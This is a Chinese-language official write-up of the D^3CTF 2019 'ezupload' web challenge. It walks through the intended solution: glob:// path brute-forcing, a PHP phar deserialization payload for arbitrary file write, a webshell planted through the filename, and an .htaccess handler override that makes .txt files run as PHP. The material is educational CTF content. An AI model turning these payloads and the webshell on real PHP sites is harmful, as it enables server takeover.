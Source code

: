 # D^3ctf 2019 Official Writeup ezupload

> 出题人：Lou00@Vidar

> 考察点：glob://爆破 文件上传写shell

> 题目描述: webroot in /var/www/html

> hint1: webroot changes every 10 mins

> hint2: glob

> hint3: https://www.php.net/manual/en/language.oop5.decon.php   Pay attention to the notes in the article 

## 前言
赛后看到了Nu1l的非预期,直接把第一考点绕过了
导致给的一些hint没啥用 (hint真是害人不浅_(:з」∠)_
## 预期解
通过审计代码可以发现存在反序列化漏洞,可以任意文件写入
但是如果是用相对路径的话,发现无法写入
通过hint3知道
![-w828](http://image.lou00.top/img/ezupload/15747757481797.jpg)
在析构函数中工作目录可能会变
以下代码可以测试
![-w344](http://image.lou00.top/img/ezupload/15747755154564.jpg)
意思是要找到绝对路径
所以第一部分的payload是
```
action=count&url=1&filename=1&dir=glob:///var/www/html/*/upload/{your_upload_path}/*
```
通过爆破得到路径(然而非了
得到路径后就可以通过文件名写shell了
构造类似与下面的文件名
```
action=upload&url=http://xxx&filename=<?php echo 1.1;eval($_GET["a"]);
```
构造反序列化

```php
<?php
class dir{
    public $userdir;
    public $url;
    public $filename;
    public function __construct($usedir,$url,$filename){
	$this->userdir = $usedir;
	$this->url = $url;
	$this->filename = $filename;
    }
}
$a = new dir('upload/{your_upload_path}','','');
$b = new dir($a,'','/var/www/html/xxx/upload/{your_upload_path}/2');
$phar = new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("__HALT_COMPILER();?>;"); 
$phar->setMetadata($b); 
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
echo urlencode(serialize($b));
```
上传后通过`file_get_contents`触发

```
action=upload&url=phar://upload/{your_upload_path}/1.jpg&filename=2.jpg
```
然后就会发现一个带有`<?`的txt文件
最后上传一个`.htaccess`文件
内容为

```
AddHandler php7-script .txt
```
即可解析php
最后是bypass `open_basedir`
最后附上一份比赛时用于检测flag的[脚本](https://github.com/Lou00/d3ctf_2019_ezupload/blob/master/poc.py)
供师傅们参考
